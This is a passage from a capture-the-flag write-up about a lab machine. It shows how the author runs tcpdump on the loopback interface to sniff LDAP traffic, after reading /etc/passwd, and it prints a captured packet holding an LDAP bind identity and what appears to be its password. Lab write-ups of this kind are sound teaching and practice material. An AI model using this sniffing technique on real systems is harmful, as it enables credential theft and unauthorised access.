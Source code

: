 ### Sniff Password Via LDAP

#### Strategy

When I stop and think about what _may_ be going on when I visit the site, it
seems like somewhere it is logged that I’ve visited, and once a minute, the
cron runs and looks at that log. A full user is being created, as I can see
not only homedirs, but also entries in `/etc/passwd`:

    
    
    [10.10.14.3@lightweight html]$ tail /etc/passwd
    tcpdump:x:72:72::/:/sbin/nologin
    ldap:x:55:55:OpenLDAP server:/var/lib/ldap:/sbin/nologin
    saslauth:x:996:76:Saslauthd user:/run/saslauthd:/sbin/nologin
    ldapuser1:x:1000:1000::/home/ldapuser1:/bin/bash
    ldapuser2:x:1001:1001::/home/ldapuser2:/bin/bash
    10.10.14.2:x:1002:1002::/home/10.10.14.2:/bin/bash
    10.10.14.18:x:1003:1003::/home/10.10.14.18:/bin/bash
    10.10.10.119:x:1005:1005::/home/10.10.10.119:/bin/bash
    10.10.14.14:x:1006:1006::/home/10.10.14.14:/bin/bash
    10.10.14.3:x:1004:1004::/home/10.10.14.3:/bin/bash
    

Given that, and the fact that ldap is listening, I’m going to hypothesize that
the cron will use ldap to add the user (spoiler: it isn’t, but another page is
using ldap). If I sniff for that traffic on localhost, I might be able to
catch it (spoiler: I can).

#### tcpdump

I’ll run `tcpdump` with the following options:

  * `-i lo` \- listen on localhost
  * `-nn` \- don’t convert hostnames or ports to names
  * `-X` \- packet print data in ASCII and hex
  * `-s 0` \- capture entire packet
  * ` ‘port 389’` - filter to capture only ldap traffic

So I started `tcpdump` and visited the page, and tried resetting my user.
After waiting a while, I didn’t get any traffic. However, once I started
clicking around again, I got ldap traffic on visiting `status.php`. This
packet was most interesting:

    
    
    [10.10.14.3@lightweight ~]$ tcpdump -i lo -nnXs 0 'port 389'
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
    ...[snip]...
    06:16:44.588923 IP 10.10.10.119.36488 > 10.10.10.119.389: Flags [P.], seq 1:92, ack 1, win 683, options [nop,nop,TS val 541880593 ecr 541880593], length 91
            0x0000:  4500 008f a0c8 4000 4006 709f 0a0a 0a77  E.....@.@.p....w
            0x0010:  0a0a 0a77 8e88 0185 26a9 d1d8 aa44 7d50  ...w....&....D}P
            0x0020:  8018 02ab 2983 0000 0101 080a 204c 7111  ....)........Lq.
            0x0030:  204c 7111 3059 0201 0160 5402 0103 042d  .Lq.0Y...`T....-
            0x0040:  7569 643d 6c64 6170 7573 6572 322c 6f75  uid=ldapuser2,ou
            0x0050:  3d50 656f 706c 652c 6463 3d6c 6967 6874  =People,dc=light
            0x0060:  7765 6967 6874 2c64 633d 6874 6280 2038  weight,dc=htb..8
            0x0070:  6263 3832 3531 3333 3261 6265 3164 3766  bc8251332abe1d7f
            0x0080:  3130 3564 3365 3533 6164 3339 6163 32    105d3e53ad39ac2
    ...[snip]...
    